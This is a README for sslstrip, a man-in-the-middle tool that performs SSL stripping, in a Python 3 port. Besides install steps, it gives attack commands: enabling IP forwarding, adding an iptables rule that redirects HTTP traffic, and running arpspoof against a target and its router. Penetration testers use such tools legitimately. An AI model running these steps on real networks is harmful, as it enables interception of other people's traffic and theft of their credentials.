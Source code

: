 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

Ported from Python v2 to v3 by Jay Townsend (theHarvester, Discover, and DNSrecon).
* [![Twitter Follow](https://img.shields.io/twitter/follow/jay_townsend1.svg?style=social&label=Follow)](https://twitter.com/jay_townsend1) Jay "L1ghtn1ng" Townsend @jay_townsend1

Requirements:  
   ```pip3 install -r requirements.txt```  

Run as root to install or run it out of the directory:  
   ```python3 setup.py install```  
   
Running:  
   sslstrip can be run from the source base without installation.  
   Run as a normal user to see options.  
   ```python3 sslstrip.py -h```

   1. As root, enable IP forwarding:<br>
      ```echo "1" > /proc/sys/net/ipv4/ip_forward```

   2. As root, setup iptables to intercept HTTP requests:<br>
      ```iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <your listen port>```
   
   3. Run sslstrip with the options you prefer.
	
   4. As root, run arpspoof to redirect traffic to your host:<br>
      ```arpspoof -i <your network interface> -t <target IP> <routers IP>```
